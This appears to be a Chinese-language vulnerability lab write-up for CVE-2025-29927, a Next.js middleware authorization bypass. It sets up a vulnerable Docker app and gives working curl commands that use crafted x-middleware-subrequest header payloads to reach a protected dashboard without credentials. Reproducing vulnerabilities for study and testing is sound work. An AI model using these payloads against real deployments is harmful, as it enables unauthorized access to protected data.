


# Next.js 中间件鉴权绕过漏洞 (CVE-2025-29927)

Next.js 是一个基于 React 的流行 Web 应用框架，提供服务器端渲染、静态网站生成和集成路由系统等功能。当使用中间件进行身份验证和授权时，Next.js 14.2.25 和 15.2.3 之前的版本存在授权绕过漏洞。

该漏洞允许攻击者通过操作 `x-middleware-subrequest` 请求头来绕过基于中间件的安全控制，从而可能获得对受保护资源和敏感数据的未授权访问。

参考链接：

- <https://github.com/advisories/GHSA-f82v-jwr5-mffw>
- <https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware>
- <https://nvd.nist.gov/vuln/detail/CVE-2025-29927>

## 环境搭建

执行以下命令启动一个基于 Next.js 15.2.2 的存在漏洞的应用：

```
docker compose up -d
```

应用启动后，访问 `http://your-ip:3000` 会被重定向到登录页面。输入默认凭据 `admin:password`，你可以登录成功并访问仪表盘。

## 漏洞复现

如果你尝试在没有合法凭据的情况下直接访问仪表盘，将会被重定向到登录页面：

```
curl -i http://your-ip:3000
```



要利用此漏洞，你可以在请求中添加 `x-middleware-subrequest` 请求头，其值为`middleware:middleware:middleware:middleware:middleware`。Next.js 中间件会错误地处理此请求头并绕过身份验证检查：

```
curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://your-ip:3000
```



可见，没有传入任何身份认证信息即可成功访问到仪表盘。

> 如果上述 payload 不起作用，您也可以尝试使用请求头 `x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware:src/middleware`。
